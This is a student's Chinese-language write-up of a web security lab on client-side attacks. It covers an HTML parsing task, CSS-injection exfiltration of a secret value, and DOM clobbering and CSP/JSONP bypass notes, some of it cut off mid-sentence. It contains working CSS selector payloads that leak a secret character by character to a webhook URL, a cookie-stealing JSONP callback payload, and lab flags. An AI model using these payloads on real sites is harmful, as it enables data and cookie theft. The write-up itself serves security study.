





# Web Lab 2：用户侧攻击

---

# Task 1: HTML Parser (15 分 )
1.  这题要求以层序遍历的方式解析一个html文件，其实主要是考察对于解析工具的使用。
2.  我这里使用了Beautiful Soup，lxml，以及队列来快速处理层序遍历。
3.  先用队列形式，最后用逗号join成字符串之后再用题目给的代码，用hashlib转md5。
4.  flag:`AAA{0e6451a90a50ea7a8b1719b7dbcf6dac}`

---

# Task 2: Show me the secret (20 分 )
1.  这道题是一个css注入的本地实现，先解释一下题目给的情景。
    1.  这里使用了flask框架，~~我们知道flask框架的debug=true会发生很奇怪的事~~。
    2.  框架内规定了三个路由：index victim 和 inject，后面两个给了html，随便补了一个index。
    3.  观察这个victim页面，首先需要127.0.0.1才能访问，渲染的时候会把victim.html里面input块的value替换成真正的flag；此外还有一个css渲染的位置，直接读取本地的custom.css。
    4.  这个inject页面有一个post提交的入口，会把提交的内容直接保存到custom.css，那这就是注入点的位置了。
    5.  所以管理员每次登录`/victim`的时候都会渲染一次html，然后调用css里的代码，这样就能类似布尔盲注的一位一位读出flag。
2.  但可惜我没有服务器，内网穿透有点麻烦，所以这里我是用了webhook开了一个公网ip给我用，在payload里面`background-img`里面就放上这个webhook的url，就能收到victim发来的请求。
3.  既然flag放在input里面，name = “secret”，所以我尝试模仿ppt构造如下的语句。
4.  `input[name="secret"][value^="A"] { background-image: url("https://webhook.site/7aa20480-9424-4214-bb23-99ffe7e0a1d/?data=A"); }`
5.  但是发现这个语句很难向我的webhook发送请求，极少数情况有成功过，belike:
    
6.  原因可能是出在这个hidden块，搜索结果是：现代主流浏览器（如 Chrome、Firefox）出于性能和安全优化，通常不会为一个 `type="hidden"` 的输入框或任何被设置为 `display: none;` 的元素加载 `background-image`。
7.  所以我换了一种注入方法，是使用了`has()`块，这是一个父选择器，语法类似`body:has(input[name="secret"][value^="A"])`，意思是选择body元素，前提是内部包含了一个name 是 secret的且第一位为A的input元素，然后我们就可以给这个body块“加背景”（其实就是注入我们的url）。
8.  具体语法如下：
9.  `body:has(input[name="secret"][value^="A"]) {background-image: url(https://webhook.site/7aa20480-9424-4214-bb23-99ffe7e0a1d8/?found=A);}`
10. OK！这个payload百试百灵。
    
11. 本地测试的具体流程是：inject页面注入payload，进victim页面刷新浏览器，然后就可以在webhook的统计页面看到我们的请求啦！
12. 这样就确认了前三位是AAA，同理，接下来尝试后面的就可以拿到整个flag。
13. 既然这样就可以开始写脚本了,既然本地不好模拟浏览器的渲染css，那就主要体现一下攻击的过程。
14. 由于我使用的是webhook的监听，所以我这里的操作是打开脚本，然后自动发送payload，然后进入victim页面刷新一下，然后等待webhook收到，再在对话框敲入刚收到的，之后继续这个过程。
15. 看一下custom.css：
    
16. 所以交互的过程就长这样：
    
17. 在webhook里面长这样：
    
18. 代码提交为task2.py。

---

# Task 3: node.\_sanitized (30 分 )
搜索并简要解释 CVE-2017-0928 的原理
1.  回顾一下DOM Clobbering，这是一种前端攻击技巧，他是建立在一个特性上，即：当你在 HTML 中创建带有 id 或 name 属性的元素时，浏览器会自动在 `window` 或 `document` 对象上创建同名的全局 JavaScript 变量，其值指向该 DOM 元素。
2.  比如说ppt里面那个`AAA 喵~`的代码就是DOM操作，先用`getElementById`选择id=target的html元素，然后再新建``的内容修改target。
3.  DOM Clobbering就是基于某些 HTML 元素的 `id` 或 `name` 属性会自动在 `window` 对象上创建同名的全局变量，通过 `id` 或 `name` 属性来“篡改”或“覆盖”应用程序中已经存在的 JavaScript 全局变量或对象属性。这会导致程序的逻辑被意外改变，从而绕过安全限制或执行非预期的操作。
4.  CVE-2017-0928受影响对象是一个名为 `html-janitor` 的 JavaScript 库，这是一个html的过滤器，处理一些可能的恶意注入的代码来保持html的纯净，比如移除``
        4.  由于`trusted-web`是被允许的，那么浏览器就会往这里发请求，返回callback参数的值:
        5.  `alert(document.cookie)//({"data": "value"})`那么这里的数据就被注释了，而前面的参数就成了js代码被执行，可以窃取cookie。
        6.  因此，尽量避免使用过于宽泛的域名作为白名单，应指定到具体的脚本路径。